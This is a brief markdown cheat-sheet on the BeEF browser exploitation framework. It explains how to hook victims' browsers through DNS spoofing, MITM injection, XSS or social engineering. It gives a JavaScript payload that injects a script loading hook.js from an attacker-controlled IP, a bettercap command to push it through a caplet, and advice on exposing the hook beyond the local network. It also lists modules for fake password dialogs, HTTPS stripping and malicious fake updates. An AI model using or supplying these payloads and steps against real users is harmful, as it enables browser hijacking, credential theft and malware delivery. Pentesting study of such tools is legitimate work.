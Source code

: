 # BeEF (Browser Exploitation Framework)

> https://beefproject.com, it comes installed with Kali Linux.

BeEF is a penetration testing tool that focuses on web browser by using client-side attacks vectors.

Targets need to be hooked (once they load a hook url) by:

* DNS spoof requests to a page containing the hook.
* Inject hook in browsed pages (MITM).
* XSS eploit.
* Social engineering the target to open a hook page (i.e, host website with Apache).
* Etc...

## MITM Bettercap injection example

We will use `hstshijack.cap` with a custom payload. Let's name our payload `inject_beef.js`:

```
const imported = document.createElement('script');
imported.src = 'http://<IP>:3000/hook.js`; // replace with your BeEF hook url
document.head.appendChild(imported);
```

> If you want to use this outside your network, you should replace IP with your REAL IP, not LAN IP, and configure IP forwarding so that your router forwards requests coming through your set up port to your machine.

And add to the caplet in `set hstshijack.payloads` value.

Then start bettercap...

```
bettercap -iface <CONNECTED_INTERFACE> -caplet /root/spoof.cap
```

## Social Engineering Attacks

There's a whole section for _Social Engineering_ with interesting tools such as:

* Extensions for dropping HTTPS
* Pretty Theft (authentication dialogs for requesting passwords)
* Fake Update Notification Bar (send hosted malicious file)

